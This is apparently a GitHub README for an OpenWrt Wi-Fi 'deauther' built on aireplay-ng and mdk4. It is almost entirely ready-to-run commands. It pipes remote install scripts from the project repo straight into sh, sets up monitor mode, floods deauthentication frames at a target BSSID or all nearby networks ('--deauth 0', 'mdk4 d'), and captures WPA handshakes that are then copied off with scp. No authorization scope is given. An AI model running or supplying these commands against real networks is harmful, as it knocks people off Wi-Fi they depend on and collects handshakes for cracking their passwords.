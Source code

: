 # openwrt deauther based on airplay-ng and mdk4
- Functions similar on kali
- Can also capture WPA Handshakes
- Stable on openwrt version 22.03.*

## Root access 
```sh
ssh root@192.168.1.1
```
```sh
telnet 192.168.1.1
```
# Mipsel_24kc only 
> Any Openwrt running in this RoC is supported by [mdk4](https://downloads.openwrt.org/releases/23.05.5/targets/ramips/)
 - mt7620
 - mt7621
 - mt76x8
 - rt288x
 - rt305x
 - rt3883
 - 
```sh
opkg update && wget -O mdk4.ipk https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/mdk4_4.2-5_mipsel_24kc.ipk && opkg install mdk4.ipk
```

# Auto install 
```sh
opkg update && wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/install.sh | sh
````

# Using aireplay-ng 
```sh
sh wlan0mon.sh && airodump-ng wlan0mon
```
> ctrl + c
```sh
aireplay-ng wlan0mon --deauth 0 -a (Mac BSSID)
```
# Monitor Mode 
```sh
wget -qO- https://raw.githubusercontent.com/xiv3r/openwrt-deauther/refs/heads/main/wlan0mon.sh | sh
```
# Run
```sh
sh wlan0mon.sh
```
# Using mdk4
```sh
sh wlan0mon.sh && mdk4 wlan0mon d
```
## Manual
> More info
 - aireplay-ng --help
 - airodump-ng --help
 - aircrack-ng --help

`iw phy phy0 interface add wlan0mon type monitor`

`ip link set wlan0mon up`

`airodump-ng wlan0mon`

`aireplay-ng wlan0mon --deauth 0 -a 32:AA:E4:18:90:45 --ignore-negative-one`

- -a | bssid -a (32:AA:E4:18:90:45)

## Export handshake or files from openwrt to local storage
> [!Tip]
> install SFTP server in both system in order that SCP to work

> Openwrt: `opkg install openssh-sftp-server`

> Linux/Termux: `apt install openssh-sftp-server`

- Termux Terminal 
```sh
scp root@192.168.1.1:*.cap storage/downloads
```
- Kali terminal 
```sh
scp root@192.168.1.1:*.cap /home/*/Downloads
```

> [!Tip]
 > * .cap - export any name with .cap file format
